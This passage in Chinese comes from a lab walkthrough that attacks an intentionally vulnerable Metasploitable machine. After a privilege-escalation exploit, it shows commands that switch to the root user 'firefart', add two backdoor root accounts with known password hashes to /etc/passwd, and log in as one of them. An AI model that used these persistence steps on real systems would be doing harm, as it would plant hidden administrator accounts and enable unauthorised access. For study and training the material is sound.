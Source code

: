 该漏洞利用成功执行。我们可以切换到根用户“firefart”。

17.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

切换到用户 firefart(无密码)

```
su firefart
id
```

![](img/c1d8fda171ce4a5b00da684ee6eec8f5.png)

我们继续一些开发后的步骤来添加 2 个额外的根用户。

18.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

在原来的/etc/passwd (/tmp/passwd)中添加一个新的根用户 hacker1 (DES 密码“hacker”)和 hacker2 (MD5-crypt 密码“hacker”)

```
echo hacker1:UHRTHrsaEfHQ2:0:0:Hacker:/root:/bin/bash>>/tmp/passwdecho hacker2:\$1\$hacker\$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash>>/tmp/passwdchmod 644 /tmp/passwd
```

![](img/e549acbab4be783fb15b37a56c6f016e.png)

19.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

Restore /etc/passwd 并退出用户 firefart。

```
cp /tmp/passwd /etc/passwd
exit
```

20.在 192.168.62.162 上执行(受害者机器，Metasploitable 第二个反向外壳)。

现在切换到后门用户“黑客 1”或“黑客 2”(密码“黑客”)

```
su hacker1
```

![](img/ded0ae967aa65e4c231110f0e580505c.png)
